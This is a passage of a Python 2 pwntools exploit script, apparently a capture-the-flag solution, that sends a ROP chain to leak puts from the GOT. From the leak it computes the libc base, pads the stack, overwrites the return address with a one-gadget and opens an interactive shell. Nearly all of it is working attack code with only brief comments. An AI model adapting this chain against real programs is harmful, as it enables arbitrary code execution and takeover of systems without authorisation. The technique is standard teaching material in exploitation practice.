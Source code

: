 ```

sendVal(popRdi)
sendVal(putsGot)
sendVal(putsPlt)
sendVal(startMain)

# Send done so our code executes
target.sendline('done')

# Print out the target output
print target.recvuntil('BON VOYAGE!\n')

# Scan in, filter out the libc infoleak, calculate the base
leak = target.recv(6)
leak = u64(leak + "\x00"*(8-len(leak)))
base = leak - libc.symbols['puts']

print "libc base: " + hex(base)

# Fill up the space between the start of our input and the retun address
# For the second round of exploiting the bug
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Overwrite the return address with a onegadget
sendVal(base + oneShot)

# Send done so our rop chain executes
target.sendline('done')

target.interactive()
```